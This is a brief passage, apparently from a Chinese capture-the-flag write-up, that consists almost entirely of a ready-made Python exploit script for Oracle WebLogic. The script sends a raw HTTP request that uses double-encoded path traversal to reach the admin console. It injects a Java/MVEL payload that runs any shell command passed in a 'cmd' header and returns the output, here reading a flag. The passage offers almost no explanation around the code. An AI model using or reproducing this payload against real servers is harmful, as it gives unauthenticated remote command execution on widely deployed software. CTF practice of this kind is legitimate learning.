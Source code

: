 ![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211026232951.png)

后面没复现成，直接拿了现成脚本打

	import socket

	sSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	sSocket.connect(("node4.buuoj.cn", 27064))
	payload = b'''HEAD / HTTP/1.1\r\nHost: node4.buuoj.cn\r\n\r\nGET /console/css/%252e%252e%252fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1\r\nHost:weblogic\r\ncmd: /readflag\r\n\r\n'''
	sSocket.send(payload)
	sSocket.settimeout(2)
	response = sSocket.recv(2147483647)
	while len(response) > 0:
    	print(response.decode())
    	try:
        	response = sSocket.recv(2147483647)
    	except:
        	break
	sSocket.close()


